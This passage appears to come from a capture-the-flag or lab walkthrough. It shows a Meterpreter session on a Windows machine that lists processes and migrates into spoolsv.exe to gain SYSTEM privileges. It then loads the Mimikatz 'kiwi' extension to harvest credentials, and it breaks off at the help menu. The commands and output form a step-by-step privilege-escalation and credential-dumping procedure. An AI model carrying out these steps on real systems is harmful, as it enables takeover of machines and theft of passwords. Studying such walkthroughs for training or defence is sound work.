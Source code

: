 ```bash
 2260  1312  Icecast2.exe          x86   1        Dark-PC\Dark                  C:\Program Files (x86)\Icecast2 Win32\Icecast2.exe
 2528  816   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wbem\WmiPrvSE.exe
 2556  692   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
 2572  1856  powershell.exe        x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe
 2616  2260  cmd.exe               x86   1        Dark-PC\Dark                  C:\Windows\SysWOW64\cmd.exe
 2724  604   conhost.exe           x64   1        Dark-PC\Dark                  C:\Windows\System32\conhost.exe
 2756  1900  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2820  816   rundll32.exe          x64   1        Dark-PC\Dark                  C:\Windows\System32\rundll32.exe
 2856  2820  dinotify.exe          x64   1        Dark-PC\Dark                  C:\Windows\System32\dinotify.exe
```

>>THERE IS SPOOLSV.EXE PROCESS WHICH EXECUTES MALICIOUS CODE TO ESCALATE OUR PRIVILEGE.THEN MIGRATE THE PROCESS.THEN SEE THE GETUID TO SEE WHO YOU ARE IN THE SYSTEM.

```bash
meterpreter > ps | grep "spoolsv.exe"
Filtering on 'spoolsv.exe'

Process List
============

 PID   PPID  Name         Arch  Session  User                 Path
 ---   ----  ----         ----  -------  ----                 ----
 1364  692   spoolsv.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\spoolsv.exe

meterpreter > migrate -N spoolsv.exe
[*] Migrating from 2572 to 1364...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

>>WE ARE USING MIMIKATZ TOGET CREDS , LOAD KIWI TO LOAD THE MIMKATZ AND TO SEE THE OPTIONS USE "SHOW OPTIONS".

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
```